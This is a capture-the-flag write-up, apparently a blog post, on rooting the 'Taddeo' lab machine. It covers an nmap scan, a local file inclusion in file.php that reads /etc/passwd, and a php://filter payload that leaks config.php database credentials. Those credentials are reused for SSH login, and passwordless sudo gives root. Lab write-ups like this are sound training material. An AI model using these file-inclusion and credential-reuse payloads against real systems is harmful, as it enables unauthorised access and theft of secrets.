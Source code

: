 ```yaml
---
title: Practical Pentest Labs | Taddeo
date: 2018-07-03 00:00:00 +0000
layout: post
categories: []
image:
  feature: "/968f7dbcabcd64f453a6ece147eda193.jpg"
  credit: ''
  creditlink: ''
description: ''
---
```

This post will describe exploitation of the Taddeo device on [PracticalPenTestLabs](https://practicalpentestlabs.com/).

## Enumeration

As is tradition, we run a full nmap scan:

```bash
nmap -Pn -p22,80,3128 -A 10.0.3.10
Starting Nmap 7.70 ( https://nmap.org ) at 2018-07-03 21:30 EDT
Nmap scan report for 10.0.3.10
Host is up (0.094s latency).

PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 f9:4c:ee:5c:41:f0:29:4f:95:7f:6a:c4:ed:84:ab:b3 (DSA)
|   2048 b5:93:28:83:45:8e:7e:b5:74:55:14:4c:41:c3:0a:11 (RSA)
|   256 a1:91:d7:28:ae:16:66:6f:24:36:d1:f3:3d:74:46:e6 (ECDSA)
|_  256 03:2a:6e:17:65:a9:d6:4a:10:c7:91:ca:5d:fd:39:17 (ED25519)
80/tcp   open  http       Apache httpd 2.4.7
| http-ls: Volume /
| SIZE  TIME              FILENAME
| 230   2016-06-21 20:25  config.php
| 115   2016-06-23 19:29  file.php
| 20    2016-06-14 10:38  phpinfo.php
|_
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: Index of /
3128/tcp open  http-proxy Squid http proxy 3.3.8
|_http-server-header: squid/3.3.8
|_http-title: ERROR: The requested URL could not be retrieved
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 3.X
OS CPE: cpe:/o:linux:linux_kernel:3.16
OS details: Linux 3.16
Network Distance: 2 hops
Service Info: Host: 127.0.1.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   95.01 ms 10.10.0.1
2   95.25 ms 10.0.3.10

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 34.15 seconds
```

So immediately we get a few ports we can browse. Based on what we know about this CTF network. More than likely our shell will be from the HTTP. Because we used the "-A" flag. Nmap enumerated the HTTP website and gathered some additional information that can help us prepare a plan of attack.

![](/assets/img/Screenshot from 2018-07-03 21-35-20.jpg)

On the HTTP landing page, we are greeted with a directory listing. Within this listing we have a few options: phpinfo.php; config.php & file.php

![](/assets/img/Screenshot from 2018-07-03 21-37-05.jpg)

Phpinfo.php gives us additional information on the target machine. But nothing else was gained from this page. Config.php was blank. It is possible there is content in this file but we can read the contents.

![](/assets/img/Screenshot from 2018-07-03 21-39-07.jpg)

File.php is interesting however, when we visit this page. We are greeted by a comment that says " Please specify the 'name' parameter" Okay. So if we visit "http://10.0.3.10/file.php?name=" We more than likely will get LFI.

![](/assets/img/Screenshot from 2018-07-03 21-43-26.jpg)

And Lo and Behold we get /etc/passwd by visiting http://10.0.3.10/file.php?name=/////////////////etc/passwd. Great, so now we have a user on the machine name Taddeo. We'll need this later for SSH. Now that we know we can read system files, let's see what's inside the Config.php.

![](/assets/img/Screenshot from 2018-07-03 21-43-21.jpg)

By using the PHP filters we can prevent PHP code executing when used in Local File Inclusion. So we visit "http://10.0.3.10/file.php?name=php://filter/convert.base64-encode/resource=config.php" Returned is a base64 encoded string. We will need to decode this before getting the contents of the php config file. We can do this in the command line by executing:

```bash 
echo "PD9waHAKZGVmaW5lKCAnREJfTkFNRScsICd0ZXN0JyApOwoKLyoqIE15U1FMIGRhdGFiYXNlIHVzZXJuYW1lICovCmRlZmluZSggJ0RCX1VTRVInLCAndGFkZGVvJyApOwoKLyoqIE15U1FMIGRhdGFiYXNlIHBhc3N3b3JkICovCmRlZmluZSggJ0RCX1BBU1NXT1JEJywgJ3RhZGRlb0AzMjEnICk7CgovKiogTXlTUUwgaG9zdG5hbWUgKi8KZGVmaW5lKCAnREJfSE9TVCcsICdsb2NhbGhvc3QnICk7Cgo/Pgo=" | base64 -d 
```

![](/assets/img/Screenshot from 2018-07-03 21-44-14.jpg)

Once executed we will get the contents which gives us a password. Although this is a password used in MySQL. It is very common for users to re-use passwords. So let's try this out on the SSH port 22 with the user Taddeo.

![](/assets/img/Screenshot from 2018-07-03 21-51-37.jpg)

We have a shell! Awesome, but the job isn't over yet. We will need to get root access now. We fire up LinuxPrivChecker.py annnnd. Nothing, nothing interesting. Which is fine because we have a few other tricks up our sleeves before we really start digging deep. But you should always try the quick and dirty tricks first before spending a ridiculous amount of time trying to get root shell. Most times, the answer is right in front of you. Now this version is vulnerable to DirtyCow. However, DirtyCow is also Dirty and more often than not will crash these machines. So best not to use it. What we do have however is a nice prompt when we execute:

```bash
Sudo -l
```

What it reads is:

```bash
User taddeo may run the following commands on TADDEO:

    (ALL) NOPASSWD: ALL
```

![](/assets/img/Screenshot from 2018-07-03 21-55-46.jpg)

This is good. So we can run programs as sudo without using a password. So let's execute:

```bash
Sudo -s
```

and see if we can get a root shell.

Tadaa! We have root and our flag.

![](/assets/img/Screenshot from 2018-07-03 21-56-50.jpg)